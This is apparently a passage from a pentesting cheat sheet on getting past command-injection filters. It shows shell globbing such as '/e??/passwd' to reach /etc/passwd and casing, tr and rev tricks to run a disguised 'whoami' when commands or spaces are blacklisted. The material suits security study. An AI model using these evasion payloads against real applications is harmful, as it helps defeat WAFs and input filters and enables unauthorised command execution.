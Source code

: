 Using wildcards (`?`, `*`, `[`, `]`, `!`) to partially or fully match file names or other file content. Globbing can be hepful in the case where applications/WAFs restrict the use of certain characters.

```bash
$ ls -l /etc/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /???/passwd
-rwsr-xr-x 1 root root 72344 Feb  4 20:28 /bin/passwd
-rw-r--r-- 1 root root  2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/passwd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/????wd
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd

$ ls -l /e??/{p????d,g???p}
-rw-r--r-- 1 root root  955 Apr  5 15:35 /etc/group
-rw-r--r-- 1 root root 2225 Apr  5 15:01 /etc/passwd
```

## Blacklisted Commands

### Casing

{% tabs %}
{% tab title="Linux" %}
```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
x7331
# if spaces are blocked
$({tr,"[A-Z]","[a-z]"}<<<"WhOaMi")
x7331
```
{% endtab %}

{% tab title="Windows" %}
```powershell
$ whOAMi
x7331
```
{% endtab %}
{% endtabs %}

### Reversing

{% tabs %}
{% tab title="Linux" %}
```bash
echo 'whoami' | rev
imaohw
$(rev<<<'imaohw')
x7331
# in one line
$(rev<<<$(echo${IFS}'whoami'|rev))
x7331
```
{% endtab %}
